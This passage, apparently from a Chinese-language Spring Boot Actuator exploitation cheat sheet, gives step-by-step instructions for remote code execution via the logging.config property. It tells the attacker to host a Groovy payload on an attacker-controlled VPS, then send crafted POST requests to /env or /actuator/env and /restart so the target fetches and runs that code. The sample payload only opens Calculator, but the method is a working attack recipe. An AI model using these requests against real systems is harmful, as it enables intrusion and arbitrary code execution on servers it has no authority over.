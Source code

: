 #### 0x0A：restart logging.config groovy RCE

**利用条件：**

* 可以 POST 请求目标网站的 `/env` 接口设置属性
* 可以 POST 请求目标网站的 `/restart` 接口重启应用
* ⚠️ 目标可以请求攻击者的 HTTP 服务器（请求可出外网），否则 restart 会导致程序异常退出
* ⚠️ HTTP 服务器如果返回含有畸形 groovy 语法内容的文件，会导致程序异常退出
* ⚠️ 环境中需要存在 groovy 依赖，否则会导致程序异常退出

**利用方法：**

**步骤一：托管 groovy 文件**

在自己控制的 vps 机器上开启一个简单 HTTP 服务器，端口尽量使用常见 HTTP 服务端口（80、443）

```
# 使用 python 快速开启 http server

python2 -m SimpleHTTPServer 80
python3 -m http.server 80
```

在根目录放置以 `groovy` 结尾的 `example.groovy` 文件，内容为需要执行的 groovy 代码，比如：

```
Runtime.getRuntime().exec("open -a Calculator")
```

**步骤二：设置 logging.config 属性**

spring 1.x

```
POST /env
Content-Type: application/x-www-form-urlencoded

logging.config=http://your-vps-ip/example.groovy
```

spring 2.x

```
POST /actuator/env
Content-Type: application/json

{"name":"logging.config","value":"http://your-vps-ip/example.groovy"}
```

**步骤三：重启应用**

spring 1.x

```
POST /restart
Content-Type: application/x-www-form-urlencoded
```

spring 2.x

```
POST /actuator/restart
Content-Type: application/json
```
